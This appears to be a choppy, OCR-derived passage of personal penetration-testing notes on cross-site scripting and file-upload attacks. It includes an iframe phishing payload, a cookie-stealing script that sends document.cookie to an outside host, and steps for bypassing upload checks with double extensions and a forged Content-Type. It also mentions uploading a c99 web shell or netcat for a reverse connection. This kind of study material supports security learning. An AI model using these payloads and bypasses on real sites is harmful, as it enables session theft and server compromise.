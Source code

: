 it will redirect to bing.com

8.Phishing instead of alert(1) we use the below script

\<iframe src="http://bing.com" height="100%" width="100%"\>\</iframe\>

9\. cookie stealing xss (victim website is transferring cookie to attacker website)

\<script\>doument.location.href="http://bing.com/p/?page="+document.cookie\</script\>

**10.XSS Through File Uploading**

two ways to do these attack

1.First method is the filename parameter it is reflecting in view-source such as abc.jpeg. so attack on filename only. send to intruder select the common payload and do the attack.

2.Second method is upload file and file uploaded context is xss script. upload the file and access the file so it will execute the payload to give the popup.

1.Simple file 2.contant type 3.extension type upload

upload the c99 file click there to executive or view source to find out the url. if it is windows system you can upload nc or c99 for reverse connection.

required cpp file others oscp

2.Contant type ( Burp suite content type Extension Verification )

First method: is use the double extension to upload a file if it is successfully uploaded. If there is no execution permission. Then use the second method.

Second method: file name is dhanush.php

capture the req from burp-suite to change the below format.

content-type: text/php(because it is text only it will not execute) so we can change to content-type: image/jpeg and forward. it will successfully upload and execution.

3.Extension verification:

double extensions

<https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/file-upload/malicious-images>

File Upload tool: <https://github.com/almandin/fuxploider>

best tool for identifying the valid extension --\> first do the starting detection of valid extension.

second thing uploading files. not required to do because first to upload valid extension.

reference watch the video.

Hackerone bounty Vulnerabilities details:

<https://hackerone.com/reports/390>

check there only while uploaded the file.

source code analysis

eLearning Security:

